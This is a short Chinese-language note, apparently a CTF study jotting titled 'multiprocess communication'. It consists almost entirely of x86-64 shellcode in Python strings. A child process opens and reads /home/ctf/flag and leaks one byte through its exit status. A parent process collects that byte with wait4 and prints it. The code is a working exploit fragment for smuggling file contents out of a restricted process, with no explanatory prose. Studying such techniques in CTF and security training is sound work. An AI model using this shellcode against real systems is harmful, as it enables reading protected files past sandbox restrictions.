 ```yaml
---
title: 多进程
updated: 2022-05-26T15:49:40.0000000+08:00
created: 2022-05-25T17:07:52.0000000+08:00
---
```


# 多进程通信
## 子进程exit将退出状态传给父进程wait 
\#子进程 open read exit传输一字节

sc2 = '''

/\* open /home/ctf/flag fd=0\*/

mov rdi, 0x74632f656d6f682f

mov rdx, 0x67616c662f66

mov rsi, 0x404500

mov \[rsi\], rdi

mov \[rsi+8\], rdx

mov rdi, rsi

mov rax, 2

xor rsi, rsi

xor rdx, rdx

syscall

/\*read 0\*/

mov rdi, 0

mov rsi, 0x404300

mov rdx, 0x50

mov rax, SYS_read

syscall

/\*exit group!\*/

mov rsi, 0x404300+{}

mov rdi, \[rsi\]

inc rsi

mov word ptr \[rsi\], 0

dec rsi

xor rdi, rdi

mov di, word ptr \[rsi\]

test di, di

jz error

xor rsi, rsi

xor rdx, rdx

xor r10, r10

mov rax, SYS_exit_group

syscall

error:

mov rdi, 123

xor rsi, rsi

xor rdx, rdx

xor r10, r10

mov rax, SYS_exit_group

syscall

'''.format(i)

\#父进程 wait得到一字节 write打印输出

sc = '''

/\*wait4\*/

mov edi, {}

mov rsi, 0x404700

xor rdx, rdx

xor rcx, rcx

xor r10, r10

mov rax, SYS_wait4

syscall

mov rdi, 1

mov rsi, 0x404701

mov rdx, 0x1

mov rax, 1

syscall

'''.format( pid+1)
